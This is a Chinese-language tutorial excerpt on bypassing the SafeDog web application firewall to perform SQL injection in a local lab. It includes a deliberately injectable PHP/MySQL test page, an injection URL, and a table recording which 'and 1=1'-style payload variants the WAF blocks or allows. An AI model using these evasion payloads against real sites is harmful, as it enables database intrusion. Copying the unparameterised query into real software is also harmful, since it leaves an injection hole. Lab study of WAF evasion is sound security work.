 - 协议:指HTTP0.9协议:TCP长连接



## WAF绕过实战----绕过安全狗进行注入

所谓的bypass waf实际上是去寻找位于waf设备之后处理应用层数据包的硬件/软件的特性,利用特性构造waf不能命中,但是在应用程序能够执行成功的payload,绕过防护



### 实验环境:

环境:安全狗Apache最新版(http://download.safedog.cn/download/software/safedogwzApache.exe)+phpstudy+windows系统

![](https://ae01.alicdn.com/kf/HTB1mnaRe2WG3KVjSZFPq6xaiXXaI.jpg)

本地测试代码:

```
<?php
$id = $_GET['id'];
$con = mysql_connect("localhost","root","root");
if (!$con){die('Could not connect: ' . mysql_error());}
mysql_select_db("dvwa", $con);
$query = "SELECT first_name,last_name FROM users WHERE user_id = '$id'; ";
$result = mysql_query($query)or die('<pre>'.mysql_error().'</pre>');
while($row = mysql_fetch_array($result))
{ 
echo $row['0'] . "&nbsp" . $row['1']; 
echo "<br />";}echo "<br/>";echo $query;
mysql_close($con);
?>
```

### 绕过拦截and 1=1

首先先稍微测试一番,发现存在安全狗

```
http://127.0.0.1/test.php?id=1  and 1=1%23  
```

![](https://ae01.alicdn.com/kf/HTB1nHmWe9WD3KVjSZSgq6ACxVXav.jpg)



```
and  1	拦截
and  '1'    拦截  
and  a	不拦截 
and  'a'    拦截  
and  !	不拦截 
and  1+1    拦截  
and  1+a    拦截  
and  hex(1)  不拦截
```
